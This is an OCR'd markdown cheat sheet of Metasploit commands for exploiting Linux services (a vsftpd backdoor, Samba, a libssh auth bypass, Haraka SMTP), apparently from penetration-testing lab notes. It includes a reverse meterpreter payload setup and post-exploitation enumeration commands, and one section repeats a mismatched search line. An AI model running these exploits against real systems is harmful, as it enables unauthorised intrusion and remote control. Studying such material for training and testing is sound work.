 **Linux Exploitation**



**FTP**

```
# FTP
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor

/bin/bash -i
```

**SAMBA**

```
# SAMBA
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename

# After exploit, proceed with Shell To Meterpreter if necessary
```

**SSH**

```
# SSH
search libssh_auth_bypass
use auxiliary/scanner/ssh/libssh_auth_bypass
set SPAWN_PTY true
run
sessions
sessions 1

# After exploit, proceed with Shell To Meterpreter if necessary
```

```
# Some shell enumeration
id
cat /etc/*release
uname -r
```

**SMTP**

```
# SMTP
search libssh_auth_bypass
use exploit/linux/smtp/haraka
set SRVPORT 9898
set email_to root@attackdefense.test
set payload linux/x64/meterpreter_reverse_http
set LHOST <LOCAL_IP>
set LPORT 8080
run
# This is a NON-staged payload
```
